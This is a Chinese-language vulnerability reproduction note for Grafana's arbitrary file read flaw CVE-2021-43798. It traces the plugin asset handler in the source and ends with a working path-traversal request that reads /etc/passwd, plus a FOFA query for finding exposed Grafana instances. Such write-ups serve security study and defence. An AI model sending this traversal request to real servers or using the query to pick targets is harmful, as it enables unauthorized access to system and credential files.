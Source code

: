 # Grafana plugins 任意文件读取漏洞 CVE-2021-43798

## 漏洞描述

Grafana存在任意文件读取漏洞，通过默认存在的插件，可构造特殊的请求包读取服务器任意文件

## 漏洞影响

```
Grafana 8.x
```

## FOFA

```
app="Grafana_Labs-公司产品"
```

## 漏洞复现

登录页面

![image-20220524145544871](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205241455924.png)

下载源码进行本地分析

```
https://codeload.github.com/grafana/grafana/zip/refs/tags/v8.3.0
```

根据漏洞找到 api.go 中的请求路径

![](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205241456202.png)

```
r.Get("/public/plugins/:pluginId/*", hs.getPluginAssets)
```

跟踪对应的 getPluginAssets 方法

![](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205241456015.png)

从请求路径中获取 `/public/plugins/` 后的参数赋值给 `pluginID,` 然后再被拼接至 `pluginFilePath` 进入文件读取片段

```
requestedFile := filepath.Clean(web.Params(c.Req)["*"])
pluginFilePath := filepath.Join(plugin.PluginDir, requestedFile)
```

![](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205241456301.png)

也就是说通过默认存在的插件来拼接文件路径构造请求进行文件读取

```
plugin, exists := hs.pluginStore.Plugin(c.Req.Context(), pluginID)
if !exists {
		c.JsonApiErr(404, "Plugin not found", nil)
		return
	}
```

插件路径 `public/app/plugins/panel`

![](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205241456061.png)

构造请求

```
/public/plugins/welcome/../../../../../../../../../etc/passwd
```

![](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205241456571.png)
